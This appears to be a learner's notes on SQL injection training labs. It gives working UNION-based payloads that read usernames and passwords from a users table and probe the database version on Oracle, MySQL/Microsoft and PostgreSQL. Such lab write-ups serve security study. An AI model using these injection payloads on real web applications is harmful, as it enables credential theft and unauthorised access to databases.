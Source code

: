 #  UNION attack, retrieving multiple values in a single column
![[Pasted image 20230222000913.png]]
2 columns
only column 2 can work to show data
![[Pasted image 20230222000959.png]]
`' UNION SELECT null,username||password FROM users-- - `
![[Pasted image 20230222001143.png]]

# querying the database type and version on Oracle

## Hint: 
On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT null FROM dual`

## Solution 
`'UNION+SELECT+'abc','abc'+FROM+dual--`
![[Pasted image 20230222002151.png]]
`'UNION SELECT 'abc',banner FROM v$version-- `
![[Pasted image 20230222002456.png]]

# querying the database type and version on MySQL and Microsoft

![[Pasted image 20230222004100.png]]
using `-- ` with space after as a comment
`' UNION SELECT NULL,version()--  `
![[Pasted image 20230222004206.png]]

# listing the database contents on non-Oracle databases
![[Pasted image 20230222005658.png]]
2 columns
both columns show results

`'+UNION+SELECT+'A',version()--+`
![[Pasted image 20230222005722.png]]
![[Pasted image 20230222005841.png]]
database is PostgreSQL
